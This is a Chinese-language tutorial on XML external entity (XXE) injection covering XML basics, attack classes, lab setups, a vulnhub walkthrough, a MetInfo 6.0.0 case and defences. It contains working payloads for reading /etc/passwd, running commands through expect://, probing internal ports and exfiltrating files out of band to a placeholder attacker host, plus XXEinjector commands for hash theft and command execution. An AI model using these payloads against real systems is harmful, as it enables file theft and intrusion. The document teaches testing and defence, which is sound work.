# 1. XXE概述
XXE（XML External Entity Injection）即XML外部实体注入。漏洞是在对非安全的外部实体数据进行处理时引发的安全问题。
下面我们主要介绍PHP语言下的XXE攻击.

## 1.1 XML基础
XML是可扩展的标记语言（eXtensible Markup Language），设计用来进行数据的传输和存储。
### 1.1.1文档结构
XML文档结构包括XML声明、DTD文档类型定义（可选）、文档元素。
```
<!--XML声明-->
<?xml version="1.0"?> 
<!--文档类型定义-->
<!DOCTYPE note [  <!--定义此文档是 note 类型的文档-->
<!ELEMENT note (to,from,heading,body)>  <!--定义note元素有四个元素-->
<!ELEMENT to (#PCDATA)>     <!--定义to元素为”#PCDATA”类型-->
<!ELEMENT from (#PCDATA)>   <!--定义from元素为”#PCDATA”类型-->
<!ELEMENT head (#PCDATA)>   <!--定义head元素为”#PCDATA”类型-->
<!ELEMENT body (#PCDATA)>   <!--定义body元素为”#PCDATA”类型-->
]]]>
<!--文档元素-->
<note>
<to>Dave</to>
<from>Tom</from>
<head>Reminder</head>
<body>You are a good man</body>
</note>
```

### 1.1.2 DTD
文档类型定义（DTD）可定义合法的XML文档构建模块。它使用一系列合法的元素来定义文档的结构。DTD 可被成行地声明于 XML 文档中，也可作为一个外部引用。
（1）内部的 DOCTYPE 声明
`<!DOCTYPE 根元素 [元素声明]>`
（2）外部文档声明
`<!DOCTYPE 根元素 SYSTEM ”文件名”>`
### 1.1.3 DTD实体
（1）内部实体声明
`<!ENTITY 实体名称 ”实体的值”>`
（2）外部实体声明
`<!ENTITY 实体名称 SYSTEM ”URI”>`
（3）参数实体声明
`<!ENTITY %实体名称 ”实体的值”>`或者`<!ENTITY %实体名称 SYSTEM ”URI”>`

三种实体声明方式使用区别：
参数实体用%实体名称申明，引用时也用`%`实体名称;
其余实体直接用实体名称申明，引用时用`&`实体名称。
参数实体只能在`DTD`中申明，`DTD`中引用；
其余实体只能在`DTD`中申明，可在`xml`文档中引用。

## 1.2 XXE原理
`XXE`即`XML外部实体注入` 。我们先分别理解一下注入和外部实体的含义。
注入：是指`XML`数据在传输过程中被修改，导致服务器执行了修改后的恶意代码，从而达到攻击目的。
外部实体：则是指攻击者通过利用外部实体声明部分来对`XML`数据进行修改、插入恶意代码。
所以`XXE`就是指`XML`数据在传输过程中利用外部实体声明部分的`“SYSTEM”`关键词导致`XML`解析器可以从本地文件或者远程`URI`中读取受保护的数据。

## 1.3 XXE分类
下面我们对`XXE`进行一下分类，按照构造外部实体声明的方法不同可分为直接通过`DTD`外部实体声明、通过`DTD`文档引入外部`DTD`文档中的外部实体声明和通过`DTD`外部实体声明引入外部`DTD`文档中的外部实体声明。按照`XXE`回显信息不同可分为`正常回显XXE`、`报错XXE`和`Blind XXE`。
### 1.3.1 按构造外部实体声明
#### 1.3.1.1 直接通过DTD外部实体声明
```
<?xml version="1.0"?>
    <!DOCTYPE Quan[
    <!ENTITY f SYSTEM "file:///etc/passwd">
]>

<hhh>&f;<hhh>
```
#### 1.3.1.2 通过DTD文档引入外部DTD文档中的外部实体声明
XML文件内容：
```
<?xml version="1.0"?>
    <!DOCTYPE Quan SYSTEM "https://blog.csdn.net/syy0201/Quan.dtd">

<hhh>&f;<hhh>
```
DTD文件内容：
```
<!ENTITY f SYSTEM "file:///etc/passwd">
```
#### 1.3.1.3 通过DTD外部实体声明引入外部DTD文档中的外部实体声明
```
<?xml version="1.0"?>
<!DOCTYPE Quan[
<!ENTITY f SYSTEM "https://blog.csdn.net/syy0201/Quan.dtd">
]>

<hhh>&f;<hhh>
```
Quan.dtd的外部实体声明内容：
```
<!ENTITY f SYSTEM "file:///etc/passwd">
```
### 1.3.2 按输出信息
#### 1.3.2.1正常回显XXE
正常回显XXE是最传统的XXE攻击,在利用过程中服务器会直接回显信息，可直接完成XXE攻击。

#### 1.3.2.2 报错XXE
报错XXE是回显XXE攻击的一种特例,它与正常回显XXE的不同在于它在利用过程中服务器回显的是错误信息，可根据错误信息的不同判断是否注入成功。

#### 1.3.2.3 Blind XXE
当服务器没有回显，我们可以选择使用Blind XXE。与前两种XXE不同之处在于Blind XXE无回显信息,可组合利用file协议来读取文件或http协议和ftp协议来查看日志。
Blind XXE主要使用了DTD约束中的参数实体和内部实体。
在XML基础有提到过参数实体的定义，这里就不再做详细讲解。
参数实体是一种只能在DTD中定义和使用的实体，一般引用时使用%作为前缀。而内部实体是指在一个实体中定义的另一个实体，也就是嵌套定义。
```
<?xml version="1.0"?>
<!DOCTYPE Note[
<!ENTITY % file SYSTEM "file:///C:/1.txt">
<!ENTITY % remote SYSTEM "http://攻击者主机IP/Quan.xml">
%remote;
%all;
]>

<root>&send;</root>
```
Quan.xml内容：
```
<!ENTITY % all "<!ENTITY send SYSTEM 'http://192.168.150.1/1.php?file=%file;'>">
```
`%remote`引入外部XML文件到这个 XML 中，`%all`检测到send实体，在 root 节点中引入 send 实体，便可实现数据转发。
利用过程：第3行，存在漏洞的服务器会读出file的内容（c:/1.txt），通过Quan.xml带外通道发送给攻击者服务器上的1.php，1.php做的事情就是把读取的数据保存到本地的1.txt中，完成Blind XXE攻击。

# 2. 危害
当允许引用外部实体时，通过构造恶意内容，可导致读取任意文件、执行系统命令、探测内网端口、攻击内网网站等危害。

## 2.1 读取任意文件 
PHP中可以通过FILE协议、HTTP协议和FTP协议读取文件，还可利用PHP伪协议。
```
<?xml version="1.0"?>
    <!DOCTYPE Quan[
    <!ENTITY f SYSTEM "file:///etc/passwd">
]>

<hhh>&f;<hhh>
```
XML在各语言下支持的协议有:


## 2.2 执行系统命令
这种情况很少发生，但在配置不当/开发内部应用情况下（PHP expect模块被加载到了易受攻击的系统或处理XML的内部应用程序上），攻击者能够通过XXE执行代码。
```
<?xml version="1.0"?>
    <!DOCTYPE Quan[
    <!ENTITY f SYSTEM "expect://id">
]>

<hhh>&f;<hhh>
```
## 2.3 探测内网端口
可根据返回信息内容判断该端口是否打开。若测试端口返回“Connection refused”则可以知道该端口是closed的，否则为open。
```
<?xml version="1.0" encoding="utf-8"?>
<!DOCTYPE note[
	<!ENTITY Quan SYSTEM "http://192.168.246.136:80">
]>

<reset><login>&Quan;</login><secret>Any bugs?</secret></reset>
```
# 3.测试方法
在进行手工测试之前先介绍几个测试XXE漏洞常用的靶场，包括靶场的安装、环境配置以及使用方法。

## 3.1 测试靶场介绍
### 3.1.1 PHP靶场－bWAPP
bwapp是一款非常好用的漏洞演示平台，包含有100多个漏洞。开源的php应用后台Mysql数据库。
#### 3.1.1.1 安装
BWAPP有两种安装方式，一种是单独安装，需部署在Apache＋PHP＋Mysql环境下；一种是虚拟机导入，下载后直接用VMWare打开即可。
下面分别介绍两种方式的安装方法。
1）单独安装
由于需要部署在`Apache＋PHP＋Mysql`环境下，我们可以直接使用集成环境，这里笔者使用的是PHPStudy，PHPStudy的安装及使用在此就不做介绍了。
（1）下载链接：
https://sourceforge.net/projects/bwapp/files/latest/download
（2）安装步骤：
Ａ．下载后解压文件，将文件放在WWW目录下
Ｂ．在admin/settings．php下更改数据库连接设置


同时也能在文件下方看到默认登录账户名及密码，可按需更改


Ｃ．运行PHPStudy，然后在浏览器打开http://127.0.0.1/bWAPP/install.php


点击here创建数据库
Ｄ．安装成功，进入靶场主界面
（3）使用方法：
账户名及密码：`bee/bug`
可在右上方选择漏洞和安全级别进行测试


#### 3.1.1.2 虚拟机导入
虚拟机版本能够测试的漏洞更多，比如破壳漏洞，心脏滴血漏洞等在单独安装的环境下无法测试。
（1）下载链接：
https://sourceforge.net/projects/bwapp/files/bee-box/bee-box_v1.6.7z/download
（2）安装步骤
下载后解压，打开VMWare，在打开虚拟机选项中进入bee－box文件选择bee－box．vmx即可。
选择NAT模式，开启虚拟机即可进入主界面


（3）使用方法：
登录：bee/bug；安全等级可选；低-中-高
方法一：直接在bee-box虚拟机中使用，点击bWAPP-Start即可进入登陆页面,登录后在右上方找到XXE漏洞，选择测试等级


方法二：查看虚拟机IP，在物理机浏览器访问`http://虚拟机IP地址/bWAPP/login.php`进行登录，登录后在右上方找到XXE漏洞，选择测试等级




### 3.1.2 java靶场--webGoat
#### 3.1.2.1 webGoat简介
WebGoat是OWASP组织研制出的用于进行web漏洞实验的Java靶场程序，用来说明web应用中存在的安全漏洞。WebGoat运行在带有java虚拟机的平台之上，当前提供的训练课程有30多个，其中包括：跨站点脚本攻击（XSS）、访问控制、线程安全、操作隐藏字段、操纵参数、弱会话cookie、SQL盲注、数字型SQL注入、字符串型SQL注入、web服务、Open Authentication失效、危险的HTML注释等等。

#### 3.1.2.2 WebGoat安装
（1）下载链接
https://github.com/WebGoat/WebGoat/releases/download/v8.0.0.M25/webgoat-server-8.0.0.M25.jar
https://github.com/WebGoat/WebGoat/releases/download/v8.0.0.M25/webwolf-8.0.0.M25.jar
（2）安装JDK
https://www.oracle.com/technetwork/java/javase/downloads/jdk12-downloads-5295953.html
需为最新JDK版本
（3）启动
java -jar webgoat-server-8.0.0.M25.jar
WebGoat默认是127.0.0.1:8080
java -jar webwolf-8.0.0.M25.jar
Webwolf默认9090端口
可修改IP和端口参数
java -jar webgoat-server-8.0.0.M25.jar --server.port=8000 --server.address=0.0.0.0

（4）在浏览器中访问127.0.0.1:8080/WebGoat(区分大小写)，进入WebGoat


### 3.1.3 DSVW靶场
#### 3.1.3.1 DSVW简介
Damn Small Vulnerable Web (DSVW) 是使用 Python 语言开发的 Web应用漏洞 的演练系统。其系统只有一个 python 的脚本文件组成, 当中涵盖了 26 种 Web应用漏洞环境, 并且脚本代码行数控制在了100行以内, 当前版本v0.1m。需要python (2.6.x 或 2.7)并且得安装lxml库

#### 3.1.3.2 安装步骤
（1）安装lxml
apt-get install python-lxml
（2）下载靶场
git clone https://github.com/stamparm/DSVW.git
（3）运行脚本
python dsvw.py
（4）浏览器访问http://127.0.0.1:65412
出现下图页面则安装成功


### 3.1.4 xxe-lab
#### 3.1.4.1 靶场介绍
xxe-lab是一个使用php,java,python,C#四种当下最常用语言的网站编写语言来编写的一个存在xxe漏洞的web demo。由于xxe的payload在不同的语言内置的xml解析器中解析效果不一样，为了研究它们的不同。作者分别使用当下最常用的四种网站编写语言写了存在xxe漏洞的web demo,将这些demoe整合为xxe-lab。

#### 3.1.4.2 靶场安装
下载链接：https://github.com/c0ny1/xxe-lab
(1)PHP下安装
将php-xxe放入PHPStudy的WWW目录下即可


(2)Java下安装
java_xxe是serlvet项目，直接导入eclipse当中即可部署运行。
(3)Python下安装
A.安装Flask模块
B.python xxe.py

## 3.2 手工测试
这里笔者选用bWAPP虚拟机靶场对回显XXE和Blind XXE进行手工测试。
### 3.2.1 Low等级
#### 3.2.1.1测试过程
Bug：选择`XML External Entity Attacks (XXE)`
Security level：选择`low`


点击Any bugs?进行抓包，发送到Repeater


根据请求包内容可知，xxe-1.php 文件中将接收到的XML文件以POST方式发送给xxe-2.php，安全等级为0。
读取网站任意文件Payload：
```
<?xml version="1.0" encoding="utf-8"?>
<!DOCTYPE note[
<!ENTITY Quan SYSTEM "http://192.168.246.136/bWAPP/robots.txt">
]>

<reset><login>&Quan;</login><secret>Any bugs?</secret></reset>
```
读取成功


内网端口检测 payload：
```
<?xml version="1.0" encoding="utf-8"?><!DOCTYPE note[
<!ENTITY Quan SYSTEM "http://192.168.246.136:80">
]>

<reset><login>&Quan;</login><secret>Any bugs?</secret></reset>
```
探测80端口，显示报错信息


netstat -tln查看本机已开放哪些端口


23端口未开放，报错信息也与探测开放端口的报错信息不同


由于此靶场没有BlindXXE漏洞，但我们可以运用BlindXXE的思路来做一下测试
先构造XXE的文件读取payload


假设没有回显,想知道是否成功读取目标服务器文件，可通过查看日志


从日志可知利用XXE成功读取文件。
将payload中的robots.txt改为不存在的hhh，再查看一下日志，可以看到404,目标服务器不存在该目录。


测试就到这里，下面我们分析一下Low级别的源码
#### 3.2.1.2 源码分析
bWAPP/xxe-2.php关键代码


xxe-2.php文件通过PHP伪协议接收XML内容，然后使用`simplexml_load_string()` 函数直接把 XML 字符串载入对象中，未做任何过滤，最后再将从xml中获取的login元素值直接回显。

### 3.2.2 Medium\High等级
用读取`robots.txt`的代码测试一下，未返回文件内容


分析一下源码
bWAPP/xxe-2.php关键代码


可以发现Medium\High等级为相同代码。
与Low级别一样，xxe-2.php文件通过PHP伪协议接收XML内容，然后使用`simplexml_load_string()` 函数直接把 XML 字符串载入对象中，未做任何过滤。
但不同之处在于login元素值是从`session`中获取，攻击者无法利用login元素来进行XXE攻击。

## 3.3 工具测试
### 3.3.1 Collaborator插件
#### 3.3.1.1 工具介绍
Burp Collaborator是从Burp suite v1.6.15版本添加的新功能，它几乎是一种全新的渗透测试方法，常用于测试不回显信息的漏洞。Burp Collaborator会渐渐支持blind XSS，SSRF， asynchronous code injection等其他还未分类的漏洞类型。
#### 3.3.1.2 安装过程
Burpsuite的extender模块下的bapp store ,找到 Collaborator点击安装即可。
安装后默认使用官方提供的服务器（推荐），也可以自己搭
#### 3.3.1.3 测试过程
由于小蜜蜂靶场没有BlindXXE漏洞，我们继续假装它就是没回显
先抓取数据包，并修改为如下payload


再点击Burp Collaborator client打开 collaborator 插件


再点击Copy to clipboard复制payload url，该url随机生成


然后使用Collaborator生成的payload url


点击go后可以在Collaborator看到访问记录


响应包返回一串随机内容，说明成功进行了响应，目标服务器进行了外部的请求和交互，证明存在Blind XXE。

### 3.3.2 XXEinjector
#### 3.3.2.1 工具介绍
XXEinjector是一款基于Ruby的XXE注入工具，它可以使用多种直接或间接带外方法来检索文件。其中，目录枚举功能只对Java应用程序有效，而暴力破解攻击需要使用到其他应用程序。
#### 3.3.2.2 安装过程
下载链接：https://github.com/enjoiz/XXEinjector
（1）安装Ruby环境
apt-get update //更新源
apt-get install ruby//安装ruby
ruby -v//查看ruby版本
（2）安装gem
gem list
gem install [gem-name]
gem environment
（3）下载工具然后解压，在进入此目录调用XXEinjector.rb即可
unzip XXEinjector-master.zip
#### 3.3.2.3 使用方法


(1)枚举HTTPS应用程序中的/etc目录
ruby XXEinjector.rb --host=192.168.0.2 --path=/etc --file=/tmp/req.txt –ssl
(2)使用gopher（OOB方法）枚举/etc目录：
ruby XXEinjector.rb --host=192.168.0.2 --path=/etc --file=/tmp/req.txt --oob=gopher
(3)二次漏洞利用
ruby XXEinjector.rb --host=192.168.0.2 --path=/etc --file=/tmp/vulnreq.txt--2ndfile=/tmp/2ndreq.txt
(4)使用HTTP带外方法和netdoc协议对文件进行爆破攻击
ruby XXEinjector.rb --host=192.168.0.2 --brute=/tmp/filenames.txt--file=/tmp/req.txt --oob=http –netdoc
(5)通过直接性漏洞利用方式进行资源枚举
ruby XXEinjector.rb --file=/tmp/req.txt --path=/etc --direct=UNIQUEMARK
(6)枚举未过滤的端口
ruby XXEinjector.rb --host=192.168.0.2 --file=/tmp/req.txt --enumports=all
(7)窃取Windows哈希
ruby XXEinjector.rb--host=192.168.0.2 --file=/tmp/req.txt –hashes
(8)使用Java jar上传文件：
ruby XXEinjector.rb --host=192.168.0.2 --file=/tmp/req.txt--upload=/tmp/uploadfile.pdf
(9)使用PHP expect执行系统指令
ruby XXEinjector.rb --host=192.168.0.2 --file=/tmp/req.txt --oob=http --phpfilter--expect=ls
(10)测试XSLT注入
ruby XXEinjector.rb --host=192.168.0.2 --file=/tmp/req.txt –xslt
(11)记录请求信息
ruby XXEinjector.rb --logger --oob=http--output=/tmp/out.txt

#4. 真实实战演练
这里选取vulnhub实战虚拟机靶场来进行实战，主要包括以下内容

## 4.1 靶场介绍
Haboob团队为发布的论文“XML外部实体注入 - 解释和利用”https://www.exploit-db.com/docs/45374制作了这个虚拟机，以利用专用网络中的漏洞。

## 4.2 靶场安装
镜像下载链接：https://download.vulnhub.com/xxe/XXE.zip
下载后直接解压导入虚拟机即可。默认NAT模式，DHCP服务会自动分配一个IP地址。

## 4.3 靶场实战演示


探测IP


可以从扫描结果得出，80端口开放，中间件是Apache，从robots.txt中得出有/xxe/目录和/admin.php文件
访问/xxe/目录


随便输个admin,password,然后抓包


改成读取本机文件payload，成功读取flagmeout.php


发送到Decoder进行Base64解密


# 5. CMS实战演练
选取Metinfo6.0.0进行XXE漏洞实战攻击测试。

## 5.1 CMS介绍
米拓企业建站系统主要用于搭建企业网站，采用PHP+Mysql架构，全站内置了SEO搜索引擎优化机制，支持用户自定义界面语言(全球各种语言)，支持可视化傻瓜式操作、拥有企业网站常用的模块功能（企业简介模块、新闻模块、产品模块、下载模块、图片模块、招聘模块、在线留言、反馈系统、在线交流、友情链接、网站地图、会员与权限管理）。

## 5.2 CMS安装
### 5.2.1 下载地址
https://www.metinfo.cn/upload/file/MetInfo6.0.0.zip
### 5.2.2 安装步骤
下载好后解压放到WWW目录即可,记得更改数据库密码。

## 5.3 CMS漏洞介绍
漏洞发生在此处文件：`app/system/pay/web/pay.class.php`
漏洞成因：未禁止外部实体加载

## 5.4 CMS实战演示
审计源码时搜索`simplexml_load_string`函数，找到漏洞文件`app/system/pay/web/pay.class.php`


未禁止外部实体加载，测试是否存在外部实体引用。


如果回显报错可能是PHP版本问题，更改`php.ini`设置即可。


通过查看日志可以知道已成功访问目标服务器。


## 5.5 修复建议
更新MetInfo版本，v6.1.0已删除`pay.class.php`文件。

# 6.防御方法

## 6.1 过滤用户提交的XML数据
过滤关键词：<!DOCTYPE和<!ENTITY，或者SYSTEM和PUBLIC

## 6.2 PHP下
libxml_disable_entity_loader(true);

## 6.3 JAVA下
DocumentBuilderFactory dbf =DocumentBuilderFactory.newInstance();
dbf.setExpandEntityReferences(false);

## 6.4 Python下
from lxml import etree
xmlData = etree.parse(xmlSource,etree.XMLParser(resolve_entities=False))
